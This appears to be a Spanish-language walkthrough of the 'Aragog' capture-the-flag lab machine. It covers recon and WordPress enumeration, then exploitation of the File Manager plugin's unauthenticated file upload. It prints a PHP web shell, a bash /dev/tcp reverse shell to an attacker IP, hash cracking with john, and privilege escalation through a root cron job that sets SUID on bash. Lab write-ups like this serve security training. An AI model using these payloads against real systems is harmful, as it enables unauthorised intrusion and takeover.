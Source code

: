 ```yaml
---
title: "1. Aragog"
description: "1. Aragog"
pubDate: 2025-05-20
---
```




# Fase de reconocimiento

## Identificamos la maquina

````
arp-scan -I ens33 --localnet
````

## Creamos directorios de trabajo

## Buscamos puertos abiertos

````
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip1> -oG allPorts
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419171219.png)

## Reconocimiento de servicios

````
nmap -sCV -p<puertos> <ip1> -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172046.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172332.png)

## Buscar tecnologías usadas en la web

````
whatweb http://<ip1>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419172801.png)

## Enumeración directorios por fuerza bruta

````
gobuster dir -u http://<ip1>/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419173821.png)

## Añadimos los DNS para que cargue bien la pagina

En /etc/hosts
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174145.png)

# Fase de Explotación

Como podemos observar con Wappalyzer nos encontramos ante un Wordpress

## Buscar vulnerabilidades

````
wpscan --url http://<ip1>/blog/ --enumerate u,vp --plugins-detection aggressive    --api-token=<API>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419174855.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175004.png)

## Usaremos Unauthenticated Arbitrary File Upload leading to RCE

1. Descargamos la POC del link
1. Creamos el payload.php

````
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
````

    ![[Pasted image 20240419175408.png]]
    

1. Ejecutamos el exploit con el payload cargado en codigo.

````
pyhton3 exploit.py http://<ip1>/blog/
````

Ya funciona! Se insertan comandos desde ?cmd=
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419175945.png)

## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/<port> 0>%261"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419180437.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Buscar donde está montado el wordpress

1. Encontramos un apache que nos dice donde está montado
1. Abrimos wp-config.php en busca de credenciales
1. Encontramos que llama al archivo config.default.php
1. ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419192906.png)

## Login en la BBDD

````
mysql -uroot -p
````

Dentro de la BBDD:

````
show databases;
````

````
use wordpress;
````

````
show tables;
````

````
select * from wp_users;
````

Encontramos una contraseña cifrada

## Crack contraseña

````
john -w:/usr/sahre/wordlists/rockyou.txt <hash>
````

## Enumeramos binarios con permiso del usuario

1. Nos logueamos con la cuenta por ssh con la contraseña crackeada
1. cd /
1. 

````
find \-user <user> 2>/dev/null
````

4. Encontramos un backup.sh , una tarea perteneciente a 'user' que ejecuta root.
4. Modificamos el script

````
chmod u+s /bin/bash
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240419194034.png)
6. Esperas que se ejecute la tarea

````
bash -p
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
ssh root@<ip1>
````

Next -> [2. Nagini](2.%20Nagini.md)

# Resumen Técnicas

WordPress Enumeration + Virtual Hosting  
Using wpscan + API TOKEN for vulnerability discovery in wordpress  
File Manager WordPress Plugin Exploitation - Unauthenticated Arbitrary File Upload leading to RCE  
Uploading a web shell to the server  
Enumerating the Apache web server directory structure  
MYSQL Database Enumeration  
Cracking Hashes + Password reuse  
Abusing Cron Job (Privilege Escalation)  
EXTRA: Creation of bash script to discover computers on the internal network  
EXTRA: Creation of a bash script to discover the open ports of the computers discovered in the internal network

